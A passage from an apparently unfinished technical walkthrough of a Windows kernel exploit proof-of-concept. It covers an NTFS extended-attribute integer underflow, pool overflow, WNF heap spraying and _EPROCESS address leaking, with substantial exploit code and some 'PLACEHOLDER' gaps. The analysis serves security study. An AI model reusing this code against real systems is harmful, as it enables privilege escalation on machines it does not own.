NtfsQueryEaUserEaListabove. 0x9 bytes for the size of all the field members excluding actual data, adding 0x3 to ensure the buffer will not shrink when aligning it to 0x4 bytes with a bitwise AND. If we want an integer underflow,out_buf_lengthmust be smaller than padding while dealing with the secondEalist. The smallestout_buf_lengthwe can achieve is 0x1, which is when the size we specified is 1 byte larger than our firstEalist. The largest padding size we can achieve is 0x3. Using the values in the code above, anamelengthof 0x3 and avaluelengthof 0x9d makes a total size of 0xa0, which is 4-bytes aligned. Adding 0x9 to it gives us 0xa9, which is one byte off. This means upon adding 0x3 as the final calculation, our padding will be exactly 0x3 bytes.
Now that we understand how the payload instantiation of FILE_FULL_EA_INFORMATION works, let's now examine how exactly the overflow occurs using the overflow instantiation of the FILE_FULL_EA_INFORMATION data structure:
overflow = (PFILE_FULL_EA_INFORMATION)((UINT64)payload + (UINT64)(payload->NextEntryOffset));
Here, we see that the FILE_FULL_EA_INFORMATION data structure exactly after the payload pointer is then assigned to overflow.
overflow->NextEntryOffset = (ULONG)0x0;
Next, we see that the NextEntryOffset is then set to 0x0, indicating that there are no other entries beyond overflow.
overflow->Flags = (UCHAR)0x0;
As with payload, we set the EaNameLength member for overflow to the length of the ExtendedAttribute name, in the case for overflow, it's the length of EANAME2 which is the string bcd.
overflow->EaNameLength = (UCHAR)strlen(EANAME2);
Next, the input argument overflow_chunk_sz is used to set the EaValueLength. According to Y3A's proof-of-concept, the value of overflow_chunk_sz is 0x18. This is done to match the second memcpy operation for the size of the overflow chunk.
overflow->EaValueLength = (USHORT)overflow_chunk_sz;
We then see that a memcpy operation is performed at EaName where the value EANAME2 is copied of size EaNameLength.
memcpy(overflow->EaName, EANAME2, overflow->EaNameLength);
Finally, we then perform a memcpy to overflow the first 0x10 bytes after the next pool header, which equates to 0x20 bytes.
memcpy(overflow->EaName + overflow->EaNameLength + 0x1, overflow_data, overflow_data_sz);
We then assign the target file the payload ExtendedAttribute. Before analyzing the arguments used, let's first look at the function prototype for NtSetEaFile from NTInternals:
NtSetEaFile(
IN HANDLE FileHandle,
OUT PIO_STATUS_BLOCK IoStatusBlock,
IN PVOID EaBuffer,
IN ULONG EaBufferSize
);
Now, let's examine the implementation within overflow_chunk:
file: The handleFileHandle, in our case set to the file we created atc:\\users\\chenl\\desktop\\ABC.txt.&x: The pointer to the outputIoStatusBlockstructure.payload: A pointer to the targetEaBuffer.0x300: The size of the targetEaBuffer.
Let's now look at the call to NtSetEaFile in overflow_chunk:
status = _NtSetEaFile(file, &x, payload, 0x300);
if (!NT_SUCCESS(status)) {
log_warn("overflow_chunk::_NtSetEaFile()1");
goto out;
}
We move onto the call to NtQueryEaFile:
status = _NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, vuln_selector, 0x300, NULL, TRUE);
if (!NT_SUCCESS(status)) {
log_warn("overflow_chunk::_NtQueryEaFile()1");
goto out;
}
As with NtSetEaFile, let's examine the function prototype from NTInternals:
NtQueryEaFile(
IN HANDLE FileHandle,
OUT PIO_STATUS_BLOCK IoStatusBlock,
OUT PVOID Buffer,
IN ULONG Length,
IN BOOLEAN ReturnSingleEntry,
IN PVOID EaList OPTIONAL,
IN ULONG EaListLength,
IN PULONG EaIndex OPTIONAL,
IN BOOLEAN RestartScan
);
Now, let's examine the implementation within overflow_chunk:
file: The handleFileHandle, in our case set to the file we created atc:\\users\\chenl\\desktop\\ABC.txt.&x: The pointer to the outputIoStatusBlockstructure.fetched_data: A pointer to the outputBuffer.0xaa: The length of the buffer in bytes.FALSE: Do not return a single entry only.vuln_selector: The list ofFILE_GET_EA_INFORMATIONstructures which contain the names of the file's ExtendedAttributes.0x300: The length of theEaListin bytes.NULL: The pointer to the index of the file's ExtendedAttribute structure.TRUE: Return the first queried ExtendedAttribute.
Now that we have examined each and every function call in overflow_chunk, let's now look at the cleanup:
puts("[+] Overflowed into neighbouring chunk");
out:
if (file && file != INVALID_HANDLE_VALUE)
CloseHandle(file);
if (fetched_data)
free(fetched_data);
if (vuln_selector)
free(vuln_selector);
if (payload)
free(payload);
return status;
We see that we close the file handle and free the memory regions that were used in overflow_chunk.
The fragment_heap Function
We start our analysis of the fragment_heap function by reviewing the function arguments and return type:
NTSTATUS fragment_heap(_Inout_ PWNF_STATE_NAME statenames, _In_ UINT64 count)
The fragment_heap function returned an NTSTATUS value depending on the success of the function's execution. The first argument, statenames, is a modifiable pointer of type PWNF_STATE_NAME, whose type definition is below:
typedef struct _WNF_STATE_NAME
{
ULONG Data[2];
} WNF_STATE_NAME, *PWNF_STATE_NAME, *PCWNF_STATE_NAME;
Next, the variable count is a read-only unsigned 64-bit integer which specifies the amount of holes created of size 0xc0 in the heap. Let's now look at the two variable definitions:
NTSTATUS status = STATUS_SUCCESS;
UINT64 counter = 0;
First, we see that status is of type NTSTATUS, the same as the return value for fragment_heap and is initialized with the value STATUS_SUCCESS. Finally, we have the unsigned 64-bit integer counter which is initially set to 0.
With the variable definitions out of the way, let's review the main body of fragment_heap, which is a for loop used to iteratively delete WNF structures in the heap:
for (int i = 0; i < count; i += 3) {
// create holes
status = _NtDeleteWnfStateData(&(statenames[i]), NULL);
if (!NT_SUCCESS(status)) {
log_warn("fragment_heap::_NtDeleteWnfStateData()1");
goto out;
}
status = _NtDeleteWnfStateName(&(statenames[i]));
if (!NT_SUCCESS(status)) {
log_warn("fragment_heap::_NtDeleteWnfStateData()1");
goto out;
}
statenames[i].Data[0] = 0;
statenames[i].Data[1] = 0;
counter++;
}
The for loop iterates by a step of 3 to a maximum value specified through the input parameter count. For each iteration, the address of the statenames entry at index i is provided to both NtDeleteWnfStateData and NtDeleteWnfStateName. If both calls are successful, the Data member at the ith index is set to 0 at both the 0 and 1 subindex. The counter value is then incremented.
printf("[+] Created 0x%llx holes of 0xc0 size in the heap\n", counter * 2);
out:
return status;
Once the loop completes or is terminated, the status is then returned to the callee.
The spray_heap Function
The spray_heap function is relatively small compared to the other functions we covered, let's go ahead and start its analysis by looking at the function's return type and input arguments:
NTSTATUS spray_heap(_Out_ PWNF_STATE_NAME statenames, _In_ UINT64 count, _In_ char *buf, _In_ UINT64 buf_sz)
As expected, the spray_heap function returns a NTSTATUS value. Looking at the input arguments we see the following:
statenames: A non-NULL point to aPWNF_STATE_NAMEbuffer.count: A read-only unsigned 64-bit value used as the upper limit to the heap spray.buf: A read-only pointer to a character array containing the value for theBufferparameter forNtUpdateWnfStateData.buf_sz: A read-only unsigned 64-bit integer used as theLengthparameter forNtUpdateWnfStateData.
Let's now examine the two variable declarations used in spray_heap:
NTSTATUS status = STATUS_SUCCESS;
SECURITY_DESCRIPTOR *sd = (SECURITY_DESCRIPTOR *)zalloc(sizeof(SECURITY_DESCRIPTOR));
The first declaration for status is rather straightforward as its purpose is to return an NTSTATUS datatype based on the execution of spray_heap. Next, let's look at the pointer sd. According to Microsoft,
The
SECURITY_DESCRIPTORstructure contains the security information associated with an object. Applications use this structure to set and query an object's security status.
As we will eventually be setting the security descriptor for our call to NtCreateWnfStateName, we first need to ensure that our sd pointer was successfully allocated in memory:
if (!sd) {
log_warn("spray_heap::zalloc()1");
status = STATUS_NO_MEMORY;
goto out;
}
Let's now take a look at the function prototype for SECURITY_DESCRIPTOR:
typedef struct _SECURITY_DESCRIPTOR {
BYTE Revision;
BYTE Sbz1;
SECURITY_DESCRIPTOR_CONTROL Control;
PSID Owner;
PSID Group;
PACL Sacl;
PACL Dacl;
} SECURITY_DESCRIPTOR, *PISECURITY_DESCRIPTOR;
Each of these security descriptor members are set within spray_heap as shown below:
sd->Revision = 0x1;
sd->Sbz1 = 0;
sd->Control = 0x800c;
sd->Owner = 0;
sd->Group = (PSID)0;
sd->Sacl = (PACL)0;
sd->Dacl = (PACL)0;
Security Descriptor Members
Based on Microsoft's documentation, let's examine what each means:
Revision
According to Microsoft, Revision is:
An unsigned 8-bit value that specifies the revision of the
SECURITY_DESCRIPTORstructure. This field MUST be set to one.
Since we are required to set this field to 0x1, we can just move onto the next member.
Sbz1
According to Microsoft, Sbz1 is:
An unsigned 8-bit value with no meaning unless the Control RM bit is set to
0x1. If the RM bit is set to 0x1, Sbz1 is interpreted as the resource manager control bits that contain specific information for the specific resource manager that is accessing the structure. The permissible values and meanings of these bits are determined by the implementation of the resource manager.
We set this value to 0x0 and as such it has no meaning since the Control RM bit is not set to 0x1.
Control
According to Microsoft, Control is:
An unsigned 16-bit field that specifies control access bit flags. The Self Relative (SR) bit MUST be set when the security descriptor is in self-relative format.
Where the format is:
| 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 1 | 2 | 3 | 4 | 5 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| SR | RM | PS | PD | SI | DI | SC | DC | SS | DT | SD | SP | DD | DP | GD | OD |
And the bits are defined as:
| Value | Description |
|---|---|
| Self-Relative (SR) | Set when the security descriptor is in self-relative format. Cleared when the security descriptor is in absolute format. |
| RM Control Valid (RM) | Set to 0x1 when the Sbz1 field is to be interpreted as resource manager control bits. |
| SACL Protected (PS) | Set when the SACL will be protected from inherit operations. |
| DACL Protected (PD) | Set when the DACL will be protected from inherit operations. |
| SACL Auto-Inherited (SI) | Set when the SACL was created through inheritance. |
| DACL Auto-Inherited (DI) | Set when the DACL was created through inheritance. |
| SACL Computed Inheritance Required (SC) | Set when the SACL is to be computed through inheritance. When both SC and SI are set, the resulting security descriptor sets SI; the SC setting is not preserved. |
| DACL Computed Inheritance Required (DC) | Set when the DACL is to be computed through inheritance. When both DC and DI are set, the resulting security descriptor sets DI; the DC setting is not preserved. |
| Server Security (SS) | Set when the caller wants the system to create a Server ACL based on the input ACL, regardless of its source (explicit or defaulting). |
| DACL Trusted (DT) | Set when the ACL that is pointed to by the DACL field was provided by a trusted source and does not require any editing of compound ACEs. |
| SACL Defaulted (SD) | Set when the SACL was established by default means. |
| SACL Present (SP) | Set when the SACL is present on the object. |
| DACL Defaulted (DD) | Set when the DACL was established by default means. |
| DACL Present (DP) | Set when the DACL is present on the object. |
| Group Defaulted (GD) | Set when the group was established by default means. |
| Owner Defaulted (OD) | Set when the owner was established by default means. |
In our case, let's take the hexadecimal value 0x800c and convert it to binary:
1000000000001100
Using our bit format table, we see that the following fields are set:
- Self-Relative
- DACL Defaulted
- DACL Present
According to Microsoft:
In self-relative format, a security descriptor always begins with a SECURITY_DESCRIPTOR structure, but the other components of the security descriptor can follow the structure in any order. Instead of using memory addresses, the security descriptor's components are identified by offsets from the beginning of the descriptor. This format is useful when a security descriptor must be stored on disk, transmitted by means of a communications protocol, or copied in memory.
Now that we know the Control properties of our Security Descriptor, let's move onto the next member of our sd structure.
Owner
According to Microsoft, Owner is OffsetOwner and is defined as :
An unsigned 32-bit integer that specifies the offset to the SID. This SID specifies the owner of the object to which the security descriptor is associated. This must be a valid offset if the OD flag is not set. If this field is set to zero, the
OwnerSidfield MUST not be present.
As per Microsoft's documentation, we see that since the Owner flag is set to 0x0, no further analysis is required except to ensure the OwnerSid field is not present.
Group
According to Microsoft, Group is OffsetGroup and is defined as:
An unsigned 32-bit integer that specifies the offset to the SID. This SID specifies the group of the object to which the security descriptor is associated. This must be a valid offset if the GD flag is not set. If this field is set to zero, the
GroupSidfield MUST not be present.
In our proof-of-concept we see that the value 0x0 is cast to the datatype PSID before being assigned to the Group member. Reviewing the AclAPI.h Windows header, we see that the actual structure of PSID varies. Thus, simply casting it to PSID and relying on the program to set the structure makes sense. In addition, it is also worth noting the same applied to the PACL data structure.
Sacl
According to Microsoft, SACL is OffsetSacl and is defined as:
An unsigned 32-bit integer that specifies the offset to the ACL that contains system ACEs. Typically, the system ACL contains auditing ACEs (such as SYSTEM_AUDIT_ACE, SYSTEM_AUDIT_CALLBACK_ACE, or SYSTEM_AUDIT_CALLBACK_OBJECT_ACE), and at most one Label ACE (as specified in section 2.4.4.13). This must be a valid offset if the SP flag is set; if the SP flag is not set, this field MUST be set to zero. If this field is set to zero, the
Saclfield MUST not be present.
In the proof-of-concept, we cast the value of Sacl to the PACL data structure before assigning it a value of 0x0.
sd->Sacl = (PACL)0;: PLACEHOLDER
Dacl
According to Microsoft, Dacl is OffsetDacl and is defined as:
An unsigned 32-bit integer that specifies the offset to the ACL that contains ACEs that control access. Typically, the DACL contains ACEs that grant or deny access to principals or groups. This must be a valid offset if the DP flag is set; if the DP flag is not set, this field MUST be set to zero. If this field is set to zero, the
Daclfield MUST not be present.
In the proof-of-concept, we cast the value of Dacl to the PACL data structure before assigning it a value of 0x0.
Now that we have reviewed the member assignments of our SECURITY_DESCRIPTOR instantiation, let's now examine the calls to both NtCreateWnfStateName and NtUpdateWnfStateData:
for (int i = 0; i < count; i++) {
status = _NtCreateWnfStateName(&(statenames[i]), WnfTemporaryStateName, WnfDataScopeMachine, FALSE, 0, 0x1000, sd);
if (!NT_SUCCESS(status)) {
log_warn("spray_heap::_NtCreateWnfStateName()1");
goto out;
}
status = _NtUpdateWnfStateData(&(statenames[i]), buf, buf_sz, 0, 0, 0, 0); // spray 0xc0 sized kernel chunks
if (!NT_SUCCESS(status)) {
log_warn("spray_heap::_NtUpdateWnfStateName()1");
goto out;
}
}
printf("[+] Sprayed 0x%llx chunks of 0xc0 sized WNF structures\n", count * 2);
out:
if (sd)
free(sd);
return status;
We start with a for loop that steps by 0x1 until the maximum value specified by count is reached. In the loop, let's first examine the call to NtCreateWnfStateName:
status = _NtCreateWnfStateName(&(statenames[i]), WnfTemporaryStateName, WnfDataScopeMachine, FALSE, 0, 0x1000, sd);
Let's look at the function prototype for NtCreateWnfStateName:
NTSYSCALLAPI
NTSTATUS
NTAPI
NtCreateWnfStateName(
_Out_ PWNF_STATE_NAME StateName,
_In_ WNF_STATE_NAME_LIFETIME NameLifetime,
_In_ WNF_DATA_SCOPE DataScope,
_In_ BOOLEAN PersistData,
_In_opt_ PCWNF_TYPE_ID TypeId,
_In_ ULONG MaximumStateSize,
_In_ PSECURITY_DESCRIPTOR SecurityDescriptor
);
Let's now examine each parameter in-context of the implementation within spray_heap:
&(statenames[i]: The memory address of the ith item in thestatenamesarray.WnfTemporaryStateName: Examining the function prototype forWNF_STATE_NAME_LIFETIME, we see 4 predefined constants:
typedef enum _WNF_STATE_NAME_LIFETIME {
WnfWellKnownStateName,
WnfPermanentStateName,
WnfPersistentStateName,
WnfTemporaryStateName
} WNF_STATE_NAME_LIFETIME;
Based on the variable name, we can assume that this constant is needed within this particular context for NtCreateWnfStateName. As the Windows Notification Facility (WNF) can be a complete deep-dive on its own, we will not go into too much depth exploring why WnfTemporaryStateName is used versus other constants and also why a constant is needed in the first place. However, if you are interested in exploring the topic further, Alex Ionescu has a great blogpost that provides an excellent analysis of the Windows Notification Facility.
WnfDataScopeMachine: As withWnfTemporaryStateName, we see that this value as well is a predefined constant:
typedef enum _WNF_DATA_SCOPE
{
WnfDataScopeSystem = 0x0,
WnfDataScopeSession = 0x1,
WnfDataScopeUser = 0x2,
WnfDataScopeProcess = 0x3,
WnfDataScopeMachine = 0x4,
} WNF_DATA_SCOPE;
FALSE: We can assume this value indicates something to do with not persisting data, but exploring the exact reasoning behind this argument is out-of-scope for this paper.0: See see the optionalTypeIdset.0x1000: Indicates the maximum state size.sd: Finally, our previously modified Security Descriptor is then included into theNtCreateWnfStateNamefunction call.
Even though we weren't able to define the exact purpose of every single argument for NtCreateWnfStateName, it serves as an important reminder that reverse engineering native Windows vulnerabilities and binaries is a monumental task. Therefore, it is always important to keep sight on the end goal without getting too caught up in the weeds.
Moving onto the next function call, NtUpdateWnfStateData, we start by taking a look at it's implementation within spray_heap:
status = _NtUpdateWnfStateData(&(statenames[i]), buf, buf_sz, 0, 0, 0, 0); // spray 0xc0 sized kernel chunks
With this in-mind, let's look at the function prototype for NtUpdateWnfStateData:
NTSYSCALLAPI
NTSTATUS
NTAPI
NtUpdateWnfStateData(
_In_ PCWNF_STATE_NAME StateName,
_In_reads_bytes_opt_(Length) const VOID *Buffer,
_In_opt_ ULONG Length,
_In_opt_ PCWNF_TYPE_ID TypeId,
_In_opt_ const VOID *ExplicitScope,
_In_ WNF_CHANGE_STAMP MatchingChangeStamp,
_In_ LOGICAL CheckStamp
);
As with the previous function call, let's walk through the parameters used in NtUpdateWnfStateData by spray_heap. First, the memory address of the ith statename element is passed as the buffer buf and buffer size buf_sz. Both buf and buf_sz are passed into spray_heap as arguments. When looking at the main function, we see that buf is a character buffer of size 0xa0. Further research is required to determine if 0xa0 can be an arbitrary size or if it needs to be equal to its current value.
Finally, after the two function calls complete, sd is freed and the function returns with the NT_STATUS.
Sandbox Constraints
One thing to keep in mind is that both the NtCreateWnfStateName and NtUpdateWnfStateName functions are unavailable when operating in Low Integrity.
The get_eproc Function
Before diving into the internals of the get_eproc function, let's take a step back and discuss the purpose of this function. According to Microsoft:
The
EPROCESSstructure is an opaque structure that serves as the process object for a process.
While we will soon see the importance of having the _EPROCESS address when we go through the main function, suffice to say that get_eproc is important in that it sets the stage for both enumeration and exploitation. Let's now look at the return type and parameter for get_eproc:
NTSTATUS get_eproc(_Out_ PULONG_PTR eproc)
First, the get_eproc function returns a NTSTATUS value upon completion. Next, a non-NULL PULONG_PTR pointer called eproc is passed to get_eproc. According to Microsoft, PULONG_PTR is:
A pointer to a ULONG_PTR
Where ULONG_PTR is:
An unsigned LONG_PTR
Where LONG_PTR is:
A signed long type for pointer precision. Use when casting a pointer to a long to perform pointer arithmetic.
While the recursive nature of the definition is oftentimes overbearing, sometimes it's good to always validate the definition of a type rather than constantly assuming it based on the naming convention.
Next, let's review the variable definitions:
NTSTATUS status = STATUS_UNSUCCESSFUL;
PSYSTEM_HANDLE_INFORMATION handle_info = NULL;
UINT64 handle_info_sz = 0x10000;
HANDLE current_proc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, GetCurrentProcessId());
Let's now review each variable's purpose and implementation:
status: Interestingly enough, unlike the previous functions we covered,get_eprochas a defaultstatusvalue ofSTATUS_UNSUCCESSFUL. This makes sense logically as the function needs to obtain the_EPROCESSvalue and if it does not have it, the function has failed.handle_info: A pointer to the below_SYSTEM_HANDLE_INFORMATIONstructure initially set to null.
typedef struct _SYSTEM_HANDLE_INFORMATION
{
DWORD NumberOfHandles;
SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, *PSYSTEM_HANDLE_INFORMATION;
handle_info_sz: The size of allocated memory to be used for thehandle_infopointer. In our case it is set to0x10000.current_proc: If successful, the call to the functionOpenProcesswill return a handle to the current process object. This will eventually be used
Next, let's look into the memory allocation prepping our handle_info pointer for the NtQuerySystemInformation function call:
printf("[+] Finding _EPROCESS address of current process: %ld\n", GetCurrentProcessId());
handle_info = (PSYSTEM_HANDLE_INFORMATION)zalloc(handle_info_sz);
if (!handle_info) {
log_warn("get_eproc::zalloc()1");
status = STATUS_NO_MEMORY;
goto out;
}
After initializing the handle_info pointer to NULL, we now allocate the PSYSTEM_HANDLE_INFORMATION structure with a memory region of size handle_info_sz. If the allocation fails, the function terminates early and returns the NT_STATUS value STATUS_NO_MEMORY.
With our memory allocation of handle_info complete, we will now enter a while loop that only breaks when the NT_STATUS return value of NtQuerySystemInformation is not equal to STATUS_INFO_LENGTH_MISMATCH. We will discuss in-detail later why the loop checks the NT_STATUS value against the constant STATUS_INFO_LENGTH_MISMATCH. But for now, let's look at the loop in its entirety:
while ((status = _NtQuerySystemInformation(
SystemHandleInformation,
handle_info,
handle_info_sz,
NULL)) == STATUS_INFO_LENGTH_MISMATCH) {
handle_info = realloc(handle_info, handle_info_sz *= 2);
if (!handle_info) {
log_warn("get_eproc::realloc()1");
status = STATUS_NO_MEMORY;
goto out;
}
}
if (!NT_SUCCESS(status)) {
log_warn("get_eproc::NtQuerySystemInformation()1");
goto out;
}
During the loop, if the return value status of NtQuerySystemInformation is equal to STATUS_INFO_LENGTH_MISMATCH, the loop assigns the handle_info a new memory allocation with realloc where the size, handle_info_sz is multiplied by two each iteration. If the memory reallocation fails, the status is assigned the value STATUS_NO_MEMORY and the function terminates early. After the loop completes without any reallocation errors, the status value is checked against NT_STATUS and if it fails, the function again terminates early.
Before moving to discuss the reasoning behind the STATUS_INFO_LENGTH_MISMATCH loop, let's break down NtQuerySystemInformation and first look at its function prototype:
__kernel_entry NTSTATUS NtQuerySystemInformation(
[in] SYSTEM_INFORMATION_CLASS SystemInformationClass,
[in, out] PVOID SystemInformation,
[in] ULONG SystemInformationLength,
[out, optional] PULONG ReturnLength
);
Let's now break down each parameter and how it's used within the context of our call with NtQuerySystemInformation:
SystemHandleInformation: According to Geoff Chappell the hex value forSystemHandleInformationis0x10while theSYSTEM_INFORMATION_CLASSenumeration itself remains undocumented by Microsoft.handle_info: PLACEHOLDERhandle_info_sz: PLACEHOLDERNULL: PLACEHOLDER
Let's now discuss why the STATUS_INFO_LENGTH_MISMATCH value is checked against the NtQuerySystemInformation call in a loop. According to this answer on Stack Overflow,
printf("[+] Fetched %ld handles\n", handle_info->NumberOfHandles);
for (int i = 0; i < handle_info->NumberOfHandles; i++)
if (handle_info->Handles[i].dwProcessId == GetCurrentProcessId() && handle_info->Handles[i].wValue == current_proc) {
status = STATUS_SUCCESS;
printf("[+] _EPROCESS of current process: %p\n", handle_info->Handles[i].pAddress);
*eproc = (ULONG_PTR)handle_info->Handles[i].pAddress;
free(handle_info);
goto out;
}
out:
CloseHandle(current_proc);
return status;
PLACEHOLDER